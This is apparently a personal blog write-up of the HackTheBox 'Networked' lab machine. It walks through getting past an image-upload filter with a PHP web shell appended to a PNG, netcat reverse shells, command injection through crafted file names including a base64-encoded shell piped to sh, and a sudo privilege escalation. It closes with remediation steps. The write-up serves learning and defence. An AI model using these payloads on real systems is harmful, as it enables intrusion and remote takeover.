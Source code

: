 ```yaml
---
layout: writeup
title: Networked - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Networked Box from HackTheBox
image: # /assets/images/Networked/Networked.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Linux]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Networked, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT    STATE  SERVICE
22/tcp  open   ssh
80/tcp  open   http
443/tcp closed https
```

Looks like we're going to be pentesting a web app, so I check out port 80 and find this:

![Networked2.png](/assets/images/Networked/Networked2.png){: .responsive-image}

Not much going on there, so I start feroxbuster and quickly find `http://10.10.10.146/uploads/` and `http://10.10.10.146/backup/backup.tar`, and that's about it. I download the backup.tar file and find: 

```
-rw-r--r--  1 pop  pop    229 Jul  9  2019 index.php
-rw-r--r--  1 pop  pop   2001 Jul  2  2019 lib.php
-rw-r--r--  1 pop  pop   1871 Jul  2  2019 photos.php
-rw-r--r--  1 pop  pop   1331 Jul  2  2019 upload.php
```

These php files are all available through the browser, so maybe if we read through them we can figure out how to exploit them. Upload.php seems to suggest the file types are limited to images. 

![Networked3.png](/assets/images/Networked/Networked3.png){: .responsive-image}

This fits with the photos.php page. 

![Networked4.png](/assets/images/Networked/Networked4.png){: .responsive-image}

Unfortunately when I browse to the upload.php page and attempt to upload any of these images, I get a `Invalid file type` response. It turns out this is because my sample files are too big. 

![Networked5.png](/assets/images/Networked/Networked5.png){: .responsive-image}

So I get another sample file and try again, and the upload works. 

![Networked6.png](/assets/images/Networked/Networked6.png){: .responsive-image}

It also change the file name to my ip address with `_`'s instead of `.`'s. So the game here is probably going to be to upload a shell of some kind, but making it look like a png file. That rules out ivan's PHP reverse shell by the way. So it will have to be something pretty small. From the code snippet above, we know that the upload.php only accepts image files, but we might be able to spoof them. 

Initially I try to do this by adding the magic bytes for PNG files (`89 50 4E 47 0D 0A 1A 0A`) and insuring that the Content-Type in the HTTP request is set to `image/png`. 
![Networked7.png](/assets/images/Networked/Networked7.png){: .responsive-image}

I can't seem to get this uploaded whether it's called `shell.php` or `shell.php.png`, so I decided to go another route and use a real sample png file, simply using `shell.php.png` as the file name and appending some php to the end. In my case I went with: 

```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

This will allow me to open the file and use cmd as a parameter to send a command. Here I run the command as `whoami` and get the result of apache at the bottom. 

![Networked8.png](/assets/images/Networked/Networked8.png){: .responsive-image}
I fiddle with this for a while, trying a few options to get a shell (can't find an ssh key) and wind up with `http://10.10.10.146/uploads/10_10_14_3.php.png?cmd=nc+10.10.14.3+445+-e+/bin/bash` which gets me the shell:

![Networked9.png](/assets/images/Networked/Networked9.png){: .responsive-image}

I navigate to the `/home` directory and find that while I can access the only user's (guly) directory, I cannot read the user.txt file. I can read `crontab.guly` and `check_attack.php`. The crontab just shows that check_attack is being run, but check_attack looks like this:
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

Basically this is checking to see if there are any files in the that do not meet the criteria for file names that are established in the upload directory. They should be the IP address with the quartets separated by `_`'s. The command to remove the files is here:
`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

We know the path is `/var/www/html/uploads/$fileName`, but we set the $value with the file name. We couldn't have exploited this very easily from the web shell because the app changes the file name to the correct naming convention, but we can once we have a shell. If the file name includes perhaps a `;` or `&` then maybe the part after that will be executed. Initially I tried using the same shell I used to access the machine: `touch 'a; nc 10.10.14.3 445 -e /bin/bash; b'`, but I get an error, presumably because of the slashes: 

```
touch: cannot touch 'a; nc 10.10.14.3 445 -e /bin/bash; b': No such file or directory
```

So I change it to `touch 'a; nc 10.10.14.3 445 -e bash; b'`. That gets a hit on the machine and dies. Then I try creating a python shell and `touch a; python shell.py; b`, and that also gets a hit and dies. 

Given that the issue seems to be with the slashes, we can just use base64 to encode and then decode it. I'll use `nc 10.10.14.3 445 -e /bin/bash` and encode it. The full command then will be: 
`touch 'a; echo bmMgMTAuMTAuMTQuMyA4ODg4IC1lIC9iaW4vYmFzaA== | base64 -d | sh; b'`, adn this actually gets a stable shell. 


![Networked10.png](/assets/images/Networked/Networked10.png){: .responsive-image}

I grab the user.txt file and see what guly can do with `sudo -l`.

![Networked11.png](/assets/images/Networked/Networked11.png){: .responsive-image}

The changename.sh file looks like this:

![Networked12.png](/assets/images/Networked/Networked12.png){: .responsive-image}

This script is writing to the `ifcfg-guly` script based on input that I give it. It asks me for the input for `interface NAME`, `interface PROXY_METHOD`, `interface BROWSER_ONLY`, and `interface BOOTPROTO`. No matter what I put, I get an error:

```
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
 But after trying a bunch of different things, it turns out that if there is a space in the variable, it will get executed as a command. So if the responses to the inputs are: `test /bin/bash`, `test`, `test`, and `test /bin/bash`, we get a root shell:

![Networked13.png](/assets/images/Networked/Networked13.png){: .responsive-image}

And then we can grab the root.txt. 

### Lessons Learned
Personally, I found this machine to be pretty difficult. I appreciate that it didn't fail the whole time I was doing it, but it took a while. Still, glad to have learned a few things:
- I'm use to editing the magic bytes and the MIME type, but I hadn't had the experience of using a real image file and appending a web shell to it. I'm a little frustrated that having the php files didn't really help me, as I still fiddled with it as though I didn't, but oh well. 
- Both privilege escalations took a while, and they seem like the involved unrealistic scripts. But they were good examples of how malicious code execution can work. I don't do a good enough job of manually splitting commands in situations like that, so it was good to have some practice with it. 
- After checking some other writeups after the fact, I found that while I could not use `nc 10.10.14.3 445 -e bash` to as the file name in the uploads directory, it worked for someone else with `nc 10.10.14.3 445 -c bash`. So it didn't actually need to be base64 encoded. I see both options on [revshells.com](https://www.revshells.com/), but I've never tried to use the latter, and now I know to give it a shot. 

### Remediation Steps
- Remove the ability for php files to be executed from the `/var/www/html/uploads` directory. Especially considering only image files should be there, there's no reason for php to execute. 
- Improve input validation on `/home/guly/check_attack.php`. It shouldn't be possible for commands to be executing with it based on file names. 
- If possible, change the way file names are allowed to be created. If they include `:` or `&` for example, they could be use for code execution if called by a script. 
- Similiarly improve input validation for `/usr/local/sbin/changename.sh`. A simply space in the input shouldn't allow the word after to be run as code.